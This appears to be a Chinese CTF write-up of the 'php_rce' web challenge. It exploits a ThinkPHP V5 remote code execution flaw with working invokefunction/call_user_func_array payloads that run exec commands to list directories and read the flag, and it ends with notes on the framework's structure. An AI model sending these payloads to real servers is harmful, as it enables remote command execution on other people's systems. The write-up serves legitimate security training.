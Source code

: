 ```yaml
---
layout: post
title: Web进阶题-php_rce
excerpt: "攻防世界进阶Web题目-php_rce"
date:   2020-10-12 19:28:00
categories: [CTF]
comments: true
---
```


## 我的解题过程

1. 访问网站，网页为ThinkPHP V5的页面，所以猜测要利用ThinkPHP V5的远程代码执行漏洞
2. 网上搜索payload，*index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars\[1\][]=1*，成功回显phpinfo()，说明存在漏洞
3. 遍历目录寻找flag，*ip:port//?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=exec&vars\[1\]\[\]=ls*，返回网页内容为"static"
4. 进入static，查看文件夹内容，*ip:port/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=exec&vars\[1\]\[\]=cd%20static;ls*，返回网页内容为空
5. 发现ls只会返回来一行，所以可以通过head命令，查看特定的某一行
6. 最后*ip:port/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=exec&vars\[1\]\[\]=cd /;ls -l\|head \-n 6*，发现了flag文件，网页返回内容为“-rw-r--r-- 1 root root 20 Jul 29 2019 flag”
7. 访问该文件内容，*ip:port/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=exec&vars\[1\]\[\]=cd% /;cat flag;*，网页返回内容为"flag{thinkphp5_rce}"
8. 提交flag，答案正确。

## 独立思考

### 1. ThinkPHP是什么？

ThinkPHP是一个快速、兼容而且简单的轻量级PHP开发框架。它使用了面向对象的开发结构和MVC模式，融合了Struts的思想和TagLib、RoR的ORM映射和ActiveRecord模式。

本题中的页面就是ThinkPHP安装完成后的起始页面，所以该页面本身没有注入点，注入点在框架本身。

其目录结构为：

```text
www  WEB部署目录（或者子目录）
├─application           应用目录
│  ├─common             公共模块目录（可以更改）
│  ├─......             ......
│
├─config                应用配置目录
│
├─route                 路由定义目录
│  ├─route.php          路由定义
│  └─...                更多
│
├─public                WEB目录（对外访问目录）
│  ├─index.php          入口文件
│  ├─router.php         快速测试文件
│  └─.htaccess          用于apache的重写
│
├─thinkphp              框架系统目录
│  ├─start.php          框架入口文件
│  └─.....              ......
│
├─extend                扩展类库目录
├─runtime               应用的运行时目录（可写，可定制）
├─vendor                第三方类库目录（Composer依赖库）
├─build.php             自动生成定义文件（参考）
├─composer.json         composer 定义文件
├─think                 命令行入口文件
```

## 产生过的疑问

1. ThinkPHP是什么？

